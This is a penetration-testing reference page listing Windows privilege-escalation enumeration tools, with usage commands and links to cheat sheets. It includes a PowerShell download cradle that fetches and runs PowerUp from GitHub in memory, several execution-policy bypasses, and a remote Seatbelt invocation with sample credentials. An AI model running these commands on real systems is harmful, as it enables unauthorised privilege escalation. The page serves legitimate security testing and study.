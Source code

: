 # Tools & Resources

*   [PowerSploit's PowerUp](https://github.com/PowerShellMafia/PowerSploit)

    ```
    powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
    ```
* [Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock](https://github.com/rasta-mouse/Watson)
*   [(Deprecated) Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities](https://github.com/rasta-mouse/Sherlock)

    ```
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1
    ```
* [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)
*   [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

    ```
    ./windows-exploit-suggester.py --update
    ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
    ```
* [windows-privesc-check - Standalone Executable to Check for Simple Privilege Escalation Vectors on Windows Systems](https://github.com/pentestmonkey/windows-privesc-check)
* [WindowsExploits - Windows exploits, mostly precompiled. Not being updated.](https://github.com/abatchy17/WindowsExploits)
* [WindowsEnum - A Powershell Privilege Escalation Enumeration Script.](https://github.com/absolomb/WindowsEnum)
*   [Seatbelt - A C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.](https://github.com/GhostPack/Seatbelt)

    ```
    Seatbelt.exe -group=all -full
    Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt"
    Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
    ```
* [Powerless - Windows privilege escalation (enumeration) script designed with OSCP labs (legacy Windows) in mind](https://github.com/M4ximuss/Powerless)
*   [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)

    ```
    powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
    ```
* [winPEAS - Windows Privilege Escalation Awesome Script](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)
*   [Windows Exploit Suggester - Next Generation (WES-NG)](https://github.com/bitsadmin/wesng)

    ```
    # First obtain systeminfo
    systeminfo
    systeminfo > systeminfo.txt
    # Then feed it to wesng
    python3 wes.py --update-wes
    python3 wes.py --update
    python3 wes.py systeminfo.txt
    ```
*   [PrivescCheck - Privilege Escalation Enumeration Script for Windows](https://github.com/itm4n/PrivescCheck)

    ```
    C:\Temp\>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
    C:\Temp\>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended"
    C:\Temp\>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Report PrivescCheck_%COMPUTERNAME% -Format TXT,CSV,HTML"
    ```

## Resources

{% embed url="https://fuzzysecurity.com/tutorials/16.html" %}

{% embed url="https://steflan-security.com/windows-privilege-escalation-cheat-sheet/" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation" %}

{% embed url="https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html" %}

{% embed url="https://github.com/abatchy17/WindowsExploits" %}
